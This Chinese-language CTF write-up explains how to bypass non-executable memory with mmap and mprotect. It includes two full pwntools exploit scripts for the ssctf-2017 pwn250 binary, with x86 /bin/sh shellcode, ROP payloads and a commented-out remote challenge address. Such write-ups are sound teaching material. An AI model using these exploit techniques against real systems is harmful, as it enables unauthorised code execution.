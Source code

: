 ```yaml
---
title: execute shellcode with mmap and mprotect
date: 2017-05-07 23:25:37
categories: pwn
---
```


# 利用mmap和mprotect来任意执行shellcode
此前一直只了解了下原理，没有实际执行过，结果遇到题目后花时间去查它们的详细参数，因此这里记录总结下。
<!-- more -->
> - by hook

## 信息介绍

现在程序基本都是开了对堆栈不可执行选项，但msf一堆优秀的shellcode不能拿来用是件多么痛苦的事情。
这里可以用mmap()或者mprotect函数来构造出我们须要权限的segment。

## 函数介绍
### <1>. mprotect
int mprotect(const void *start, size_t len, int prot);  
mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

### <2>. mmap
void* mmap(void* start,size_t length,int prot,int flags,int fd,off_t offset);
mmap()函数把指定或随机分配的地址内存，以prot权限映射到自start开始的，长度为length，而且为PAGE_SIZE单位的地址。

## 利用思路
<1>. 将shellcode写进一段具有可写权限的段里，然后用mprotect将对应的段修改为可执行，再跳到布置好的shellcode里。
<2>. 用mmap获取一段rwx权限的内存，映射到指定地址处，然后将shellcode写入映射好的内容存里，接着跳入布置好的shellcode中。

## 实例
[ssctf-2017 pwn250](https://github.com/gloxec/record/ssctf_2017/pwn250)
就拿这这个来练习下mprotect&mmap:

mprotect:

```
#!/usr/bin/python

from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

bssAddr = 0x080ec000
mprotectAddr = 0x0806e070
readAddr = 0x0806d510

p = process('./250')
#p = remote('60.191.205.81', 2017)
context.log_level = 'debug'
p.recvuntil('Size]')
p.sendline('102')
p.recvuntil('Data]')

pppr = 0x080ad715

payload = 'a'*62+p32(mprotectAddr) + p32(pppr) + p32(bssAddr) + p32(0x1000) + p32(7)
payload += p32(readAddr) + p32(bssAddr) + p32(0) + p32(bssAddr) + p32(len(shellcode)+1)
p.send(payload)
p.send(shellcode)
p.recv()

p.interactive()
```

mmap:

```
#!/usr/bin/python

from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

segAddr = 0xbeef0000
mmapAddr = 0x0806DF70 
mainAddr = 0x08048886
readAddr = 0x0806d510

p = process('./250')
#p = remote('60.191.205.81', 2017)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
p.recvuntil('Size]')
p.sendline('94')
p.recvuntil('Data]')

payload = 'a'*62+p32(mmapAddr) + p32(mainAddr) + p32(segAddr) + p32(1024) + p32(7) + p32(34) + p32(0) + p32(0)
p.send(payload)

p.recvuntil('Size]')
#gdb.attach(p)
p.sendline('82')
p.recvuntil('Data]')
payload2 = 'a'*62+p32(readAddr) + p32(segAddr) + p32(0) + p32(segAddr) + p32(1024)
p.send(payload2)
p.sendline(shellcode)
p.recv()

p.interactive()
```
这里拿mmap后的内存看一下,可以发现被映射成rwx的内存和shellcode的成功执行。
![](/images/execute shellcode with mmap and mprotect/mmap.png)

